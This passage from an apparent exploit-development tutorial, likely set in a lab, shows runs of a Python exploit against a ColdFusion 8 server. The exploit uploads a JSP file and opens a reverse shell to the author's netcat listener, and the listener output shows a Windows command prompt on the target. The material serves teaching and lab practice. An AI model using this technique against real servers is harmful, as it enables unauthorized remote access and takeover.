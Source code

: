 Here is what happens when I don't pass enough arguments:
```
$ python3 exploit.py http://10.129.170.199:8500                   
Usage: python3 exploit.py <target_host> <listener_ip> <listener_port>
Example: python3 exploit.py http://10.10.20.15:80 127.0.0.1 1337
```

Here is what happens when I run the program with more than required arguments:
```
$ python3 exploit.py http://10.129.170.199:8500 10.10.10.10 1338 z
Usage: python3 exploit.py <target_host> <listener_ip> <listener_port>
Example: python3 exploit.py http://10.10.20.15:80 127.0.0.1 1337
```

Here is what happens when I run the program with enough arguments as instructed by it's usage:
```
$ python3 exploit.py http://10.129.170.199:8500 10.10.10.10 1338  
[ + ] Upload successful, uploaded to:
[>>>] http://10.129.170.199:8500/userfiles/file/oVKtoHXafF.jsp
[...] Opening the shell, hold your beer...
[***] Check your listener!
```

The listener:
```
$ nc -lnvp 1338                                                   
Listening on 0.0.0.0 1338
Connection received on 10.129.170.199 49754
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\ColdFusion8\runtime\bin>
```
<br>

### Final thoughts
Most of what you learned here will be used in the next exploits, it's advised to completely understand this exploit first before moving forward, it gives you a broad understanding of how exploits really work or developed. In the next series of exploit documentations, I will focus on new things and skip through the things that are already explained here.
